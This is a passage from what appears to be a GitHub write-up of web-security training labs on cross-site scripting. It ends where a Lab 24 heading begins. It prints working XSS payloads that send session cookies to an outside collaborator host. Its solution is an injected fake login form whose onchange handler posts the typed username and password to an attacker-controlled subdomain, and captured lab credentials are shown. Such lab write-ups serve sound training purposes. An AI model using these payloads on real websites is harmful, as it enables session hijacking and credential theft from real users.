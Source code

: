     ```
    
    <script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>

    Or
 
   <img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">

    
       ```
<img width="722" height="615" alt="image" src="https://github.com/user-attachments/assets/bc35d05a-8ecf-4c66-8d06-a66fc022a104" />

 We get an HTTP request with the cookie:


 Next I opened the Firefox debugger's Console and set the cookie:

 `document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"`

<img width="483" height="121" alt="image" src="https://github.com/user-attachments/assets/d394799d-24f9-4ad3-b738-694d743adc6b" />

But that does not work...

Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

```

<img width="775" height="639" alt="image" src="https://github.com/user-attachments/assets/7cbb1978-9829-4493-8da3-87bf3d687091" />

Collaborator response:

<img width="928" height="343" alt="image" src="https://github.com/user-attachments/assets/eb34d9d9-ccfb-4f5b-9410-ea434f75d28e" />

Solved with credentials **administrator:ec7ga43qyd9zisyb4h4i**


<img width="1046" height="363" alt="image" src="https://github.com/user-attachments/assets/bcd75845-72e3-43fc-a2f4-2880c3d49db1" />

---


### LAB 24 - Exploiting XSS to bypass CSRF defenses

### Lab Description

![image](https://github.com/user-attachments/assets/27bc896e-1013-40d2-af9d-b54fbe6c8273)
